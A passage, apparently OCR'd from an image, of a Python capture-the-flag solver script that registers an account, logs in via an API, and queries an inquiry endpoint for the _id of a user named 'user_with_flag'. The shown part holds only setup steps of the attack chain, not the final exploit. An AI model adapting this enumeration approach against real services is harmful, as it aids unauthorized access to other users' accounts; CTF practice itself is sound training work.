 ```python
        return False

    # If API returns JSON with token, consider success; otherwise inspect status code/text.
    try:
        j = resp.json()
    except Exception:
        j = {}

    if resp.ok and ("token" in resp.text or j.get("token")):
        print("[+] Account registered successfully.")
        return True

    # Some APIs return 201 or custom messages; handle common failure responses gracefully.
    if resp.status_code in (200, 201) and resp.text:
        print("[+] Register returned success-like status, proceeding.")
        return True

    # Otherwise print reason and return False
    print(f"[-] Register failed: {resp.status_code} {resp.text.strip()[:300]}")
    return False

def login(session: requests.Session, base_url: str, email: str, password: str) -> bool:
    """Perform login using session and keep the token cookie."""
    url = base_url.rstrip("/") + "/api/v2/auth/login"
    data = {"email": email, "password": password}

    try:
        resp = session.post(url, json=data, timeout=15)
    except requests.RequestException as e:
        print(f"[-] Login request failed: {e}")
        return False

    # Parse response JSON
    try:
        j = resp.json()
    except Exception:
        j = {}

    if resp.status_code == 200 and j.get("message") == "Login successful":
        print("[+] Successfully logged in.")

        # Session will automatically store Set-Cookie (token=...), 
        # so you can use `session` for further requests.
        return True

    print(f"[-] Login failed: {resp.status_code} {resp.text.strip()[:300]}")
    return False

def get_user_id(session: requests.Session, base_url: str, target_username: str = "user_with_flag"):
    """Query the inquiry endpoint to return the user's _id. Returns the id string or None."""
    url = base_url.rstrip("/") + f"/api/v2/auth/inquire?username={target_username}"
    try:
        resp = session.get(url, timeout=15)  # session already has cookies
    except requests.RequestException as e:
        print(f"[-] Inquiry request failed: {e}")
        return None

    if not resp.ok:
        print(f"[-] Inquiry failed: {resp.status_code} {resp.text.strip()[:300]}")
        return None

    try:
        j = resp.json()
```